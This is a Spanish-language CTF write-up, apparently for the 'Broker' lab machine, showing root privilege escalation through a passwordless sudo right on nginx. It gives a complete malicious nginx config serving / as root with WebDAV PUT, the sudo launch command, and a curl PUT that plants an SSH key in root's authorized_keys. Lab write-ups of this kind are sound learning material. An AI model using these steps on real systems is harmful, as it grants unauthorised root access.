 #sudo-l #abusobinarionginx

-----------
# Enumeracion

```shell
sudo -l
```

![[Broker17.png]]
Vemos que podemos ejecutar el binario */usr/sbin/nginx* sin proporcionar contraseña

--------
# Explotacion

Vamos al directorio */tmp* y vamos a crear un archivo que se llame *nginx_pwn.conf* con este contenido

```shell
user root;
worker_processes 1;
pid /tmp/nginx.pid;

events {
    worker_connections 768;
}

http {
    server {
        listen 1339;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```


El archivo configura nginx para ejecutarse como root, escuchar en el puerto 1339, servir el directorio raíz `/` por HTTP, mostrar listados de carpetas y permitir subidas de archivos mediante el método PUT.

![[Broker10.png]]

Despues vamos a iniciar nginx como si fueramos sudo con la configuracion que pusimos en el archivo que creamos con el comando `sudo /usr/sbin/nginx -c /tmp/nginx_pwn.conf` 
Vamos a subir el archivo del usuario *root* al usuario *activemq* con `curl -X PUT http://localhost:1339/root/.ssh/authorized_keys -d "$(cat ~/.ssh/id_rsa.pub)"`

Ahora vamos al directorio con [[cd]] usando el comando`cd ~/.ssh`  y por ultimo nos vamos a conectar a [[ssh]] con el comando `ssh -i id_rsa root@localhost`

![[Broker11.png]]
Ya estamos conectados como root y podemos catear las flags 

![[Broker12.png]]
